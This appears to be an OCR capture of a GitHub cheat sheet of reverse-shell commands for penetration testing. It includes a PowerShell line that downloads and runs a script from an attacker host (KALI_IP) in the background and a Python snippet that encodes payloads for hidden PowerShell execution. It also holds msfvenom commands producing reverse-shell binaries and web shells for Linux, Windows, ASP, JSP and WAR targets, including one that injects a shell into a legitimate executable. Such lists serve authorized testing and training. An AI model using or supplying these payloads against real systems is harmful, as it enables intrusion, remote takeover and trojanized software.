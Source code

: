 ### Starting a windows conptyshell in background (can use it via a web shell to call conptyshell directly)
```cmd
start /B powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://KALI_IP/rev.ps1')"
```

### upgrade linux simple shell to tty shell without python
```bash
script -qc /bin/bash /dev/null 
```

### Python script to create a reverse shell payload
```python
import sys
import base64

payload = 'YOUR_PAYLOAD'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

### Linux ELF binary
```bash
# 32 bit
msfvenom -p linux/x86/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f elf -o shell.elf
# 64 bit
msfvenom -p linux/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f elf -o shell.elf
```
### Windows EXE binary
```bash
#32 Bit
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT EXIT_FUNC=thread -f exe -o shell32.exe
#64Bit
msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT EXIT_FUNC=thread -f exe -o shell64.exe
```
### Windows Service
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT EXITFUNC=thread -f exe-service -o service.exe
```
### ASP
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f asp -o shell.asp
```
### JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f raw -o shell.jsp
```
### WAR (usually useful for tomcat)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f war -o shell.war
```
### Inject payload into an existing exe file
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -x Legit.exe -f exe -o malicious.exe
```